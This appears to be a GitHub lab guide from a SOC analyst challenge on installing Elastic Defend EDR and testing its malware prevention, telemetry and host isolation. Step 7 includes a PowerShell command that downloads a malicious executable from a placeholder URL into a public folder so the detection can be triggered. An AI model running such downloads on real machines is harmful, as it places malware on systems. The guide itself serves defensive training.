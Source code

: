 # 🧠 Day 29 – Elastic Defend (EDR) Installation & Telemetry Analysis

### 30-Day SOC Analyst Challenge – MyDFIR Series

---

## 🎯 Objective

By the end of this lab, you will have:

- Installed **Elastic Defend (EDR)** on your endpoint.
- Viewed the **telemetry and alerts** generated by Elastic Defend.
- Tested **malware prevention and host isolation** capabilities.

---

## 🛡️ Introduction

**Elastic Defend** is Elastic’s native Endpoint Detection and Response (EDR) solution.  
It provides **real-time protection**, **telemetry visibility**, and **incident response** features.

With a **free subscription**, you can:

- Download and install Elastic Defend.
- View alerts and telemetry.

⚠️ **Limitation:** Free subscriptions **cannot remotely isolate hosts**.  
However, with the **30-day free trial**, full EDR capabilities (including host isolation) are enabled.

---

## ⚙️ Step 1: Installing Elastic Defend

1. In Kibana, click the **☰ Hamburger icon** (top-left corner).
2. Scroll down and select **Integrations**.
3. Search for **Elastic Defend** and click **Add Elastic Defend**.
4. Configure the integration:

   - **Name:** `araizii-edr`
   - **Description:** `Elastic EDR MyDFIR 30-Day Challenge`

5. Choose a configuration profile:

   - **Data Collection**
   - **NextGen Antivirus**
   - **Essential EDR**
   - **Complete EDR**

   For this challenge, select:

   - **Complete EDR** (available through 30-day free trial).
   - **Traditional Endpoint** (for desktop, laptop, VM).

6. Attach to your host:

   - Example: Select your **Windows Server policy** (`my-windows-policy`).

7. Click:
   - **Save and Continue**
   - **Save and Deploy Changes**

## ![Elastic Defend](../images/29-Elastic-defend.png)

---

## 🧩 Step 2: Verify Endpoint Connection

1. Go to **☰ → Security → Manage → Endpoints**.
2. Verify that your Windows Server appears as an active endpoint.
3. Under **Actions**, confirm that **Isolate Host** is available  
   (available only with the 30-day trial).

## ![Elastic Defend](../images/29-Elastic-defend1.png)

---

## 💣 Step 3: Test Malware Prevention

1. In your **Windows Server console**, open the directory containing `araizii.exe`.
2. Attempt to execute the file.

   ✅ **Expected Result:**  
   You’ll receive an alert:

   > “Operation did not complete successfully because the file contains a virus or potentially unwanted software.”

3. You’ll also see a notification:
   > “Elastic Security prevented araizii.exe”

## ![Elastic Defend](../images/29-Elastic-defend2.png)

---

## 🔍 Step 4: View Telemetry in Kibana

1. Go to **Discover** in Kibana.
2. Search for the keyword: `malware`.
3. Adjust the time filter to **Last 15 minutes**.
4. Sort results by **Timestamp (newest first)**.

📄 Example telemetry fields:

- **Event Code:** `malicious_file`
- **Directory:** `C:\Users\Public\Downloads`
- **Quarantine Path:** `<auto-generated path>`
- **File Name:** `araizii.exe`
- **File Owner:** `<username>`
- **File Hash:** `<SHA256 hash>`

## ![Elastic Defend](../images/29-Elastic-defend3.png)

---

## 🚨 Step 5: Analyze Alerts

1. Navigate to **Security → Alerts**.
2. Open the **Malware Prevention Alert**.
3. Click **View Details**.

### Example Alert Information:

- Rule: **Generates detection alert when an Elastic endpoint security alert is received.**
- Contains:
  - **Process Executable**
  - **File Path**
  - **File Hash**
- Visualizations:
  - **Process Tree** (e.g., `explorer.exe → araizii.exe`)
  - If additional processes were spawned (e.g., `rundll32.exe`), they would appear here as well.

## ![Elastic Defend](../images/29-Elastic-defend4.png)

---

## 🧰 Step 6: Add Response Action

1. Edit the Malware Prevention rule:
   - Click **Edit Rule Settings → Actions → Elastic Defend**.
2. For the **Response Action**, choose **Isolate Host**.
3. Add a **comment:** “Testing”
4. Save your changes.

---

## 🧪 Step 7: Test Host Isolation

1. In the Windows Server, open **Command Prompt**.
2. Execute an **infinite ping** to Google DNS:

   ```bash
   ping 8.8.8.8 -t
   ```

3. Since the file was quarantined, re-download it via PowerShell:

   ```powershell
   # Example re-download
   iwr -uri "http://malicious_file_url/araizii.exe" -OutFile "C:\Users\Public\Downloads\araizii.exe"
   ```

4. Observe that Elastic Defend **immediately deletes the file** on detection.
5. Within a few minutes, the **Windows Server becomes isolated** —  
   confirming the isolation response was successful.

---

## ✅ Conclusion

🎉 **Congratulations!**  
You have successfully:

- Installed and configured **Elastic Defend**.
- Monitored **malware prevention telemetry**.
- Tested **alert generation** and **host isolation**.

---

